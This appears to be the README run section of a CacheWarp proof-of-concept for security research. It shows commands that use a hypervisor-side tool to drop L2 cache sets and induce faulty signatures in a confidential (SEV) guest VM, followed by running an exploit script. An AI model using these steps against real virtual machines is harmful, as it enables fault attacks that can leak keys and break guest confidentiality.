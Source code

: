 ## Run

Set `UC_VMSA` to 0 in `cachewarp.c` for blind drops.

``` bash
# You will observe a correct signature
vm> make all 

# Keep signing until a fault leads to a different signature
vm> make fault
```

## Blindly drop  
``` bash
hv> sudo ./blind <randomly choose a multi-step interval> 3 <L2 sets index to drop> 0
```
If the L2 sets index is within 1~1024 then the single specified L2 set will be dropped.

Otherwise you can use 0xAAABBB to drop L2 sets whose index is within 0xAAA ~ 0xBBB


``` bash
vm> python3 exploit.py
```
